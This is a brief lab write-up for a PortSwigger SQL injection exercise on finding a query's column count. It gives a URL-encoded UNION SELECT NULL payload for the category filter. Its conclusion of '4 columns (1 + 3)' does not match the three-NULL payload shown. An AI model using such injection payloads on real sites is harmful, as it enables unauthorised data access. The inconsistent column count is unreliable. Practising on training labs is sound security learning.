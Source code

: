 # Lab

https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

## Payload

```sql
/filter?category='+UNION+SELECT+NULL,NULL,NULL--
```

## Conclusion

4 columns are returned (1 + 3).